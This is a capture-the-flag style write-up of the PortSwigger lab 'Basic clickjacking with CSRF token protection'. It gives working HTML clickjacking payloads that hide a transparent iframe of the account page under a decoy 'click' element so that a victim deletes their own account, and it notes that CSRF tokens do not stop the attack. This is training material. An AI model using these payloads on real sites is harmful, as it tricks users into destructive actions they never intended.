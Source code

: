 ### Basic clickjacking with CSRF token protection : APPRENTICE

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Login via the given credentials and head to the my-account page.

![](./screenshots/lab1-1.png)

> We need to replicate this page, this will be the decoy page.
> Above it we will place a transparent layer that when clicked deletes the account.

```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.1; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:550px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a8a00bd044b105d81d994f4003600c2.web-security-academy.net/my-account/"> </iframe> 
</body>
```

> To test, we made the opacity of the target website 0.1 to be able to move the decoy `click` right on top of the delete button.
> Keep playing with the pixels in the top and left until the placement of click is right above the delete button. The values above are the final ones.
> To test, simply click on view exploit in the exploit server.

![](./screenshots/lab1-2.png)

![](./screenshots/lab1-3.png)

> We can check that if the user hovers on click, the mouse changes to the click button pointer.
> After we are done, change the opacity of the target website to make it transparent and then store it to complete the lab.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:550px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a8a00bd044b105d81d994f4003600c2.web-security-academy.net/my-account/"> </iframe> 
</body>
```

##### Notice 

> Notice that the application is using CSRF tokens, but this isnt protecting against the clickjacking attack.
>  Clickjacking attacks are not mitigated by the CSRF token as a target session is established with content loaded from an authentic website and with all requests happening on-domain.

---
